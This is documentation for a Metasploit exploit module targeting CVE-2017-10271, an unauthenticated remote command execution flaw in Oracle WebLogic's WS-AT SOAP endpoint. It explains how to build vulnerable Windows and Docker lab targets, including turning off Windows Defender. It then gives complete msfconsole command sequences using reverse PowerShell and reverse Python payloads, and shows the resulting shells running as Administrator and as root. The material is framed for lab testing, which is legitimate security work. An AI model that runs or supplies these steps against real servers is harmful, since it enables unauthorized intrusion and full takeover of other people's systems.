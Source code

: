 # Description

This module works leverages [CVE-2017-10271](https://nvd.nist.gov/vuln/detail/CVE-2017-10271) against Oracle WebLogic Server's  Web Service Atomic Transaction API a XML SOAP request to create a `java.lang.ProcessBuilder` object to provide unauthenticated arbitrary command execution.  A command line can be acquired through the use of `cmd/unix/reverse_python`.

Note that the TARGET must be set to match either a Windows or Unix-based host.  If the TARGET variable is set improperly, a log entry will be generated on a vulnerable server, but the server will not crash.  For example, a Linux payload sent to a Windows server will output:

```
java.io.IOException: Cannot run program "/bin/sh": CreateProcess error=2, The system cannot find the file specified
Continuing ...
```

# Vulnerable Application

Oracle WebLogic server versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 and 12.2.1.2.0 with access to Web Services Atomic Transaction (WS-AT) endpoints are vulnerable to unauthenticated arbitrary command execution.

### Windows: Setting up a vulnerable application

We successfully tested this exploit against a fully-patched, Windows 10 (x64) target.  Since WebLogic is resource intensive, consider providing four cores and 8GB of RAM.

1. [Download](http://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-main-097127.html) Oracle WebLogic Server 10.3.6, using the "Windows x86 with 32-bit JVM" (`wls1036_win32.exe`).
2. Run the installer.  (See [here] for detailed instructions.)  You may be prompted to install a Java Development Kit (JDK).  [JDK 8u151 x64](http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html) was verified working.
3. Windows Defender will block the payload from executing, so you may need to [temporarily](https://support.microsoft.com/en-us/help/4027187/windows-turn-off-windows-defender-antivirus) or [permanently](https://www.windowscentral.com/how-permanently-disable-windows-defender-windows-10) disable it.
4. Run the configuration wizard and [create a new weblogic domain](https://docs.oracle.com/cd/E29542_01/web.1111/e14140/newdom.htm#WLDCW192).  Domain names and credentials are irrelevant.  At the conclusion of the wizard, click "Start Admin Server".
5. The `startWebLogic.cmd` should run immediately after the installer and present logging output.  Once running, the window should output a line similar to the following
```
<Jan 11, 2018 1:30:49 PM CST> <Notice> <WebLogicServer> <BEA-000365> <Server state changed to RUNNING>
<Jan 11, 2018 1:30:49 PM CST> <Notice> <WebLogicServer> <BEA-000360> <Server started in RUNNING mode>
```

### Windows: Attacking a vulnerable application

Attack the above Windows server using the `exploit/multi/http/oracle_weblogic_wsat_deserialization_rce`:

```
msf > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set RHOST [IP address of your target]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set TARGET 0
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set PAYLOAD cmd/windows/reverse_powershell
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set LHOST [IP address of your attacker]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > run

[*] Started reverse TCP handler on 192.168.108.1:4444
[*] Command shell session 1 opened (192.168.108.1:4444 -> 192.168.108.132:50060) at 2018-01-11 11:48:16 -0600

Microsoft Windows [Version 10.0.16299.192]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Oracle\Middleware\user_projects\domains\admindomain>whoami
weblogic-server\Administrator
```

### Unix: Setting up a vulnerable environment

1. If necessary, install Docker.io.  [These instructions](https://www.ptrace-security.com/2017/06/14/how-to-install-docker-on-kali-linux-2017-1/) were tested on a Kali 2017.3 VM:

```
apt-key adv --keyserver hkp://p80.pool.sks-keyservers.net:80 --recv-keys 58118E89F3A912897C070ADBF76221572C52609D
echo 'deb https://apt.dockerproject.org/repo debian-stretch main' > /etc/apt/sources.list.d/docker.list
apt update
apt-get install docker-engine
service docker start
docker run hello-world
```

2. Install a container running Ubuntu 16.04 and WebLogic 10.3.6.0:
```
docker run -d -p7001:7001 -p80:7001 kkirsche/cve-2017-10271
```

3. Confirm that the container is up.
```
docker ps
```

### Unix: Attacking a vulnerable application

Attack the above Unix server using the `exploit/multi/http/oracle_weblogic_wsat_deserialization_rce`:

```
msf > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set RHOST [IP address of the target]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set TARGET 1
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set PAYLOAD cmd/unix/reverse_python
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set LHOST [IP address of the attacker]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > run

[*] Started reverse TCP handler on 192.168.108.1:4444
[*] Command shell session 5 opened (192.168.108.1:4444 -> 192.168.108.129:51312) at 2018-01-11 11:46:49 -0600

id
uid=0(root) gid=0(root) groups=0(root)
```

# Credits
Documentation originally written by Aaron Soto (@asoto-r7) and was edited by Kevin Kirsche (@kkirsche).
